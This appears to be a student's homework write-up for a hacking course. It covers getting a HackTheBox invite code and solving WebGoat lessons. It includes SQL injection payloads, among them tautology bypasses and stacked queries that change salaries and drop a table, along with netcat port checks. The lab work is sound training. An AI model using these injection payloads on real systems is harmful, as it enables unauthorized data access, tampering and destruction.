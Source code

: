 # H1

Solutions to first week assignments.

## Table of Contents

* [a) Get invited to HackTheBox](#a-get-invited-to-HackTheBox)
* [b) Install WebGoat and login](#b-install-webgoat-and-login)
* [c) Solve WebGoat assignments](#c-solve-webgoat-assignments)
* [d) Install Kali Linux and test it out](#d-install-kali-linux-and-test-it-out)
* [References](#references)

---

## a) Get invited to HackTheBox

* opened developer console and found the first clue, that pointed me to search interesting Javascript file
* found a file pretty fast named inviteapi.min.js, that had an obfuscated Javascript function. I didn't try to solve the obfuscation and just tried the makeInviteCode function, which was the next clue. It guided me to make POST HTTP request to /api/invite/how/to/generate
* I did a POST HTTP request with curl to /api/invite/how/to/generate and received BASE64 encoded string

  ```shell
  curl -L -v -X POST www.hackthebox.eu/api/invite/how/to/generate
  ```

* I opened the encoded string like this and received the next clue

  ```shell
  echo "SW4gb3JkZXIgdG8gZ2VuZXJhdGUgdGhlIGludml0ZSBjb2RlLCBtYWtlIGEgUE9TVCByZXF1ZXN0IHRvIC9hcGkvaW52aXRlL2dlbmVyYXRl" | base64 -d
  ```

* clue was: "In order to generate the invite code, make a POST request to /api/invite/generate"

  ```shell
  curl -L -v -X POST www.hackthebox.eu/api/invite/generate
  ```

* call gave me another BASE64 encoded string, which I opened and it gave me the code to log in to HackTheBox

  ```shell
  echo "QVNLQ1ItTkNTRk0tR0RRQ0UtQklQUUQtTVlSVUI" | base64 -d
  ```

---

## b) Install WebGoat and login

I downloaded [WebGoat Docker image](https://hub.docker.com/r/webgoat/webgoat-8.0/), ran it and managed to log in.

---

## c) Solve WebGoat assignments

* HTTP Basics
  - The HTTP Basics assignment was quite easy. Just needed to open developer console and view the source code to see that they validated, that posted magic number was 55
* Developer tools
  - Developer tools opens in Opera(MacOS) with command + options + i keyboard shortcut
  - CTRL+L clears console in Opera's console
  - calling the webgoat.customjs.phoneHome() function in console printed me the required output with -1182196480 phone number
  - opening the network tab in developer console and sending the request shows a request called network, which had a header with networkNum named form data with value of 32.69182959869092
* CIA Triad
  - 1 - 3
  - 2 - 1
  - 3 - 4
  - 4 - 2
* A1 Injection (intro)

  - select Bobs department

    ```sql
    SELECT department FROM Employees WHERE first_name = 'Bob' and last_name = 'Franco';
    ```

  - update Tobi Barnett's department

    ```sql
    UPDATE employees SET department = 'Sales' WHERE userid IN (select userid from employees WHERE first_name = 'Tobi' and last_name = 'Barnett')
    ```

  - add column to table

    ```sql
    ALTER TABLE employees ADD phone varchar(20);
    ```

  - grant alter table to

    ```sql
    GRANT ALTER TABLE TO UnauthorizedUser
    ```

  - injection

    ```sql
    SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
    ```

  - numeric sql injection: use numeral instead of strings

    ```sql
    SELECT * From user_data WHERE Login_Count = 1 and userid = 1 or 1 = 1
    ```

  - confidentiality

    ```sql
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '1' OR '1' = '1';
    ```

  - integrity: close the auth_tan query and inject and update clause

    ```sql
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '"'; UPDATE employees SET salary = 100000 WHERE auth_tan = '"3SL99A"'
    ```

  - availability: close the select query and add a drop clause which uncomments the end of the select clause

    ```sql
    SELECT * FROM access_log where action = '%'; DROP TABLE access_log --%;
     ```

---

## d) Install Kali Linux and test it out

I created a Vagrant setup ([Vagrantfile](../Vagrantfile)), that sets up a development environment for me. It runs WebGoat in Docker and Kali Linux on VirtualBox using Vagrant.

I tried netcat to test if my local machine had port 53 open.

    nc -v -w 3 localhost 53

The port was closed as suspected: <i><b>localhost [127.0.0.1] 53 (domain) : Connection refused</i></b>. I wanted to scan the udp port as well to see what does it report.

    nc -v -w 3 -u localhost 53

And interestinly it reported, that the 53/udp port was open: <i><b>localhost [127.0.0.1] 53 (domain) open</i></b>. The port is for local DNS responses, so it should be open.

---

## References

* [terokarvinen.com, ict4tn027-3005](terokarvinen.com/2021/hakkerointi-kurssi-tunkeutumistestaus-ict4tn027-3005/)
* [WebGoat Docker image](https://hub.docker.com/r/webgoat/webgoat-8.0/)
* [My Vagrantfile](../Vagrantfile)

